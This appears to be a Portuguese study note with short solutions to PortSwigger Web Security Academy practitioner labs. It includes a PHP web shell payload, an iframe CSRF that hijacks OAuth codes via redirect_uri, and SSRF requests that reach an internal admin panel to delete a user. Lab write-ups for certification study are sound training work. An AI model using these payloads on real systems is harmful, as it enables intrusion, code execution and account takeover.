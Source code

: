 # Practitioner Labs

A PortSwigger recomenda resolver todos [esses 23 laboratórios](https://portswigger.net/web-security/certification/how-to-prepare/practitioner-labs-prep-step-one) como parte dos estudos.

A grande parte dos laboratórios tem somente a resposta sem nenhum detalhe já que todos eles aparecem em alguma etapa, nos outros arquivos.

<br>

## Laboratórios

**Lab: Web Shell Upload via Extension Blacklist Bypass**

Suba um arquivo com extensão `.phar`.
```
<?php echo file_get_contents('/home/carlos/secret'); ?>

OU

<?php system($_GET['cmd']); ?>
```

<br>
<br>

**Lab: OAuth Account Hijacking via redirect_uri**

Mude o `redirect_uri` para o servidor de exploit.

O CSRF será:
```
<iframe src="https://oauth-0a64002304635a12826490d402450089.oauth-server.net/auth?client_id=b6ajkjihwmqj6pxjov0z8&redirect_uri=https://exploit-0ad100fa040b5a2c82f7918c01ce0085.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
```

Utilize o token capturado para logar em:
```
https://your-lab-id.web-security-academy.net/oauth-callback?code=CODE
```

<br>
<br>

Lab: SSRF via Flawed Request Pparsing

Observe que é possível acessar a página home colocando a URL absoluta no path da request:
```
GET https://YOUR-LAB-ID.web-security-academy.net/
```

Utilize isso para enumerar hosts internos com Intruder:
```
Host: 192.168.0.1
```

Delete o usuário pegando o CSRF válido através da resposta ao acessar `/admin`.
```
POST https://0ab900100391b39c8158079300f000f7.web-security-academy.net/admin/delete HTTP/2
Host: 192.168.0.192
...

csrf=JH6ksOFcMTuCx83COSNSuiPlzSYJD55d&username=carlos
```
